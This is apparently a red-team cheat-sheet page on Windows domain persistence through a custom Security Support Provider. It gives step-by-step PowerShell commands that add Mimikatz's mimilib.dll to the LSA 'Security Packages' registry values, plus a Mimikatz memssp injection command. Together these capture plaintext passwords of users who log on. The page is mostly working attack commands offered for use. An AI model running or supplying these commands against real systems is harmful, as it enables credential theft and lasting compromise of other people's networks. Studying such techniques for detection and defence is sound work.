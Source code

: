 ```yaml
---
legal-banner: true
---
```


### **DOMAIN PERSISTENCE VIA CUSTOM SSP**

Custom Security Support Providers (SSPs) can be used to capture plaintext passwords from users that log on. This guide provides steps to set up a custom SSP using a DLL, such as `mimilib.dll` from Mimikatz.

### **STEPS TO SET UP A CUSTOM SSP**

1.  Get Current Security Packages:    
    `$packages = Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages' | select -ExpandProperty 'Security Packages'`
    
2.  Append the Custom DLL (e.g., mimilib): `$packages += "mimilib"`
    
3.  Update the OSConfig registry key with the new packages    
    `Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages' -Value $packages`
    
4.  Update the Lsa registry key with the new packages    
    `Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages' -Value $packages`
    
5.  Alternative Method Using Mimikatz to inject mimilib    
    `Invoke-Mimikatz -Command '"misc::memssp"'`